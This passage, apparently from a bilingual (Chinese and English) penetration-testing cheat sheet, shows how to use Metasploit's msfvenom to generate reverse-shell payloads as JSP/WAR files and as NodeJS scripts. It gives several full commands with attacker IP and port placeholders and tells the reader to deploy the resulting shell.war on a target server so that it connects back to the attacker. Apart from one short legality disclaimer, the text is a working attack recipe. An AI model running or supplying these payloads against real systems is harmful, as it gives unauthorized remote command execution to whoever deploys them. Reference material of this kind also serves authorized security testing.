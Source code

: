 使用 `msfvenom` 工具生成一个包含反向 shell 功能的 JSP 文件。

- `-p java/jsp_shell_reverse_tcp`：指定使用 Java JSP 反向 shell 功能。
- `LHOST=<attacker IP>`：将 `<attacker IP>` 替换为攻击者的 IP 地址。
- `LPORT=<attacker port>`：将 `<attacker port>` 替换为攻击者监听的端口号。
- `-f war`：将生成的 JSP 文件保存为 WAR 文件格式。
- `> shell.war`：将生成的 WAR 文件保存为 `shell.war`。

然后，将生成的 `shell.war` 文件部署到目标服务器上，以触发反向 shell 连接。
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
```
The **WAR** file format is commonly used in Java web applications. It stands for Web Application Archive and is essentially a compressed file that contains all the necessary files and resources for a web application to run.

One of the common uses of a WAR file is to deploy a web application on a server. However, it can also be used as a delivery mechanism for a reverse shell.

A **reverse shell** is a type of shell in which the target machine initiates a connection to the attacker's machine, allowing the attacker to execute commands on the target machine remotely. This can be useful in scenarios where the target machine is behind a firewall or has restricted outbound connections.

To create a reverse shell using a WAR file, you can use the `msfvenom` tool, which is part of the Metasploit Framework. The following command can be used to generate a WAR file with a reverse shell payload:

```plaintext
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker IP> LPORT=<attacker port> -f war > shell.war
```

Replace `<attacker IP>` with the IP address of the attacker's machine and `<attacker port>` with the desired port for the reverse shell connection.

Once the `shell.war` file is generated, it can be deployed on a vulnerable server. When the server runs the WAR file, it will establish a reverse shell connection to the attacker's machine, providing the attacker with remote access to the server.

It is important to note that using reverse shells for unauthorized access to systems is illegal and unethical. Reverse shells should only be used for legitimate purposes, such as penetration testing or authorized security assessments.
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
```
### NodeJS

NodeJS 是一个基于 Chrome V8 引擎的 JavaScript 运行时环境，用于构建高性能的网络应用程序。它允许开发人员使用 JavaScript 在服务器端运行代码，而不仅仅局限于浏览器环境。NodeJS 提供了丰富的内置模块和工具，使开发人员能够轻松地构建可扩展的网络应用程序。

#### 使用 Metasploit 生成恶意 NodeJS 脚本

Metasploit 是一个功能强大的渗透测试框架，可以用于生成各种类型的恶意脚本。使用 Metasploit 的 msfvenom 工具，我们可以生成恶意的 NodeJS 脚本。

以下是使用 msfvenom 生成恶意 NodeJS 脚本的示例命令：

```bash
msfvenom -p nodejs/shell_reverse_tcp LHOST=<attacker IP> LPORT=<attacker port> -f raw > malicious.js
```
